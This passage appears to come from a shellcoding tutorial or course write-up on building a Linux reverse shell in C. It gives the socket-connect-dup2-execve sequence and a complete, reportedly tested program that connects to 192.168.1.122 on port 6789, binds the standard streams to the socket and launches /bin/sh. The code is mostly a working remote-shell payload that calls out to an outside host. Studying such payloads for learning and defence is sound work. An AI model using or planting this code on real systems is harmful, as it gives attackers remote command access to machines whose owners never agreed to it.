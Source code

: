 It appears that the reverse shell should be simpler than the bind shell.  The procedure for making the connection should look similar to:

socket->connect->dup2->dup2->dup2->execve

The prototypes of the functions that we will want to call are in the following order below (with the man page link referenced):
```c
/* http://man7.org/linux/man-pages/man2/socket.2.html */
int socket(int domain, int type, int protocol);
/* http://man7.org/linux/man-pages/man2/connect.2.html */
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
/* http://man7.org/linux/man-pages/man2/dup.2.html */
int dup2(int oldfd, int newfd);
/* http://man7.org/linux/man-pages/man2/execve.2.html */
int execve(const char *filename, char *const argv[], char *const envp[]);
```

I wrote the following C program that creates this reverse shell and compiled and ran it to confirm it functions properly.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define NULL 0

int socket(int domain, int type, int protocol);
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int dup2(int oldfd, int newfd);
int execve(const char *filename, char *const argv[], char *const envp[]);
int close(int fd);

int main() {
    char* address = "192.168.1.122";
    int port = 6789;
    
    /* this creates a new socket but it has no address assigned to it yet */
    int sockfd = socket(AF_INET /* 2 */, SOCK_STREAM /* 1 */, 0);

    /* create sockaddr_in structure for use with connect function */
    struct sockaddr_in sock_in;
    sock_in.sin_family = AF_INET;
    sock_in.sin_addr.s_addr = inet_addr(address);
    sock_in.sin_port = htons(port);

    /* perform connect to target IP address and port */
    connect(sockfd, (struct sockaddr*)&sock_in, sizeof(struct sockaddr_in));

    /* duplicate file descriptors for STDIN/STDOUT/STDERR */
    for (int n = 0; n <= 2; ++n) {
        dup2(sockfd, n);
    }

    /* execute /bin/sh */
    execve("/bin/sh", NULL, NULL);

    close(sockfd);

    return 0;
}
```

